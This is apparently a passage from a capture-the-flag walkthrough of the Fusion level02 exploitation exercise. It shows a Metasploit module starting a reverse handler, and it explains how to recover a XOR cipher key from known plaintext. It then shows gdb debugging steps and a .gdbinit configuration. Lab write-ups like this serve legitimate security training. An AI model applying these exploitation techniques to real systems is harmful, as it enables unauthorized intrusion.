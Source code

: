 The module successfully encrypts some data.

{% highlight bash %}
msf exploit(level02) > exploit

[*] Started reverse handler on 192.168.1.37:4444
[*] Encrypted data: "\xEC\xF20\xDB\x88Ml\xA4\x055\xA3\xB3\x95\xAC\xA2z\xE5\xFF\xE0\xCE>-Ak\xC6\x1A\x8C M\x19O\xF7\xB9\xCB\x9E\xE6\a\xE2\xFE\xC6\x9D\x1D^-\xF4\xAD\xCA\xECQ\xEFT\x8C\xD2\x8E\xA1&\xE9i7\xC2\xC97\x84lW\x0F\x80\xA3^Z\x1FG\x12\"\xF7\xDE\x986\xF2'\xCF3a\xA719\xCB)\x9B\xE8\xA6\xB5\x10\xFD-\xBF\xFAy1\x9A\x0FkGK\x8B\xF0\xF5z\x0F\x19\xF8v\x8F\xE2\x86\xC0F\xC8\xF7\x06\xFFpUF\x90\x05\xBA}\xEC\xF20\xDB\x88Ml\xA4\x055\xA3\xB3\x95\xAC\xA2z\xE5\xFF\xE0\xCE>-Ak\xC6\x1A\x8C M\x19O\xF7\xB9\xCB\x9E\xE6\a\xE2\xFE\xC6\x9D\x1D^-\xF4\xAD\xCA\xECQ\xEFT\x8C\xD2\x8E\xA1&\xE9i7\xC2\xC97\x84lW\x0F\x80\xA3^Z\x1FG\x12\"\xF7\xDE\x986\xF2'\xCF3a\xA719\xCB)\x9B\xE8\xA6\xB5\x10\xFD-\xBF\xFAy1\x9A\x0FkGK\x8B\xF0\xF5z\x0F\x19\xF8v\x8F\xE2\x86\xC0F\xC8\xF7\x06\xFFpUF\x90\x05\xBA}"
{% endhighlight %}

## <a name="retrieving-the-key"></a> Retrieving The Key
---
The server uses a XOR cipher to encrypt the data. The key can be retrieved using the following three steps:

- Generate some data: A
- The program will xor the input with a key: A ^ K
- Xor the encrypted data with the input: A ^ A ^ K = K

Before retrieving the key we will need to know the key size. Attach gdb to the server and print the size of the key buffer:

{% highlight bash %}
root@fusion:/home/fusion# gdb -q
(gdb) b *cipher
Breakpoint 1 at 0x8049735: file level02/level02.c, line 6.
(gdb) c
Continuing.
[New process 28738]
[Switching to process 28738]

Breakpoint 1, cipher (blah=0xbfa142ac 'A' <repeats 200 times>..., len=256) at level02/level02.c:6
6 level02/level02.c: No such file or directory.
(gdb) p keybuf
$1 = {0 <repeats 32 times>}
(gdb)
{% endhighlight %}

The encryption key is 32 integers long or 128 bytes.

Like the previous levels this program will fork a new process for each connection, make sure to enable `follow-fork-mode child`. While creating the exploit we will be attaching gdb many times,`.gdbinit` can save a lot of typing. I recommend adding the following lines:

{% highlight bash %}
root@fusion:/home/fusion# cat .gdbinit
source gdb-checksec.py
source gdb-pattern.py

set disassembly-flavor intel
set follow-fork-mode child

attach 1479
c

root@fusion:/home/fusion#
{% endhighlight %}
